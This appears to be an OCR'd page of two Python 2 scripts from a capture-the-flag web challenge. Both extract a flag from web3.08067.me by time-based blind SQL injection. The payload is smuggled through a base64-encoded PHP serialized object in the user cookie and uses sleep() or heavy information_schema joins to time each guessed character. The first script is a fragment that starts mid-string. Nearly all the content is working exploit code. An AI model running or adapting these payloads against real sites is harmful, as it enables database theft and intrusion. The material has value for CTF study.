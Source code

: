 ```python
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate, sdch
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: user=%s
 
''' % base64(serialize_str)
        url = "http://web3.08067.me/wakeup/index.php"
        start = time.time()
        a,b,c,d,e = hh.http(url,raw=raw)
        end = time.time()
        exec_time = end-start
        if exec_time > 3:
            flag += chr(j)
            print i,flag
            break
            
           
'''对应的payload
admin' and (select 1 from flag where ascii(mid(flag,1,1))=38) and (`'`.``.username=1 or sleep(3)) 
'''
```

```Python
__author__ = 'niexinming'
import base64
import urllib
import urllib2
import base64
import time
#ll=list("abcdefghijklmnopqrstuvwxyz1234567890")
#llascii=[]
#for jj in ll:
#    llascii.append(ord(jj))
for kk in range(1,32):
    print "di : "+str(kk)
    for i in range(32,127):
       start= time.time()
       url="http://web3.08067.me/wakeup/index.php"
       sql="select flag from flag"
       post_data="username=heheda&password=heheda&login="
       payload="admin'and ascii(substring((%s),%s,1))=%s and (select count(*) from information_schema.columns, information_schema.columns T1,information_schema.columns T2)=1 and '1'='1" % (sql,str(kk),str(i))
       xueliehua='''O:5:"login":4:{s:3:"uid";i:0;s:4:"name";s:%s:"%s";s:4:"pass";s:32:"6be530e78ade605347059701a54f996e";}
       ''' % (str(len(payload)),payload)
       #print xueliehua
       b64=base64.b64encode(xueliehua)
       urlencodedata=urllib.quote(b64)
       heads={}
       heads["Cookie"]="user="+urlencodedata
       #print urlencodedata
       req = r=urllib2.Request(url,data=post_data,headers=heads)
       resual= urllib2.urlopen(r)
       resual.read()
       end= time.time()
       #print str(end-start)+":",
       #print chr(i)
       if 20>(end-start)>8:
           print "this this:"+str(kk)+" : "+chr(i)
           break
```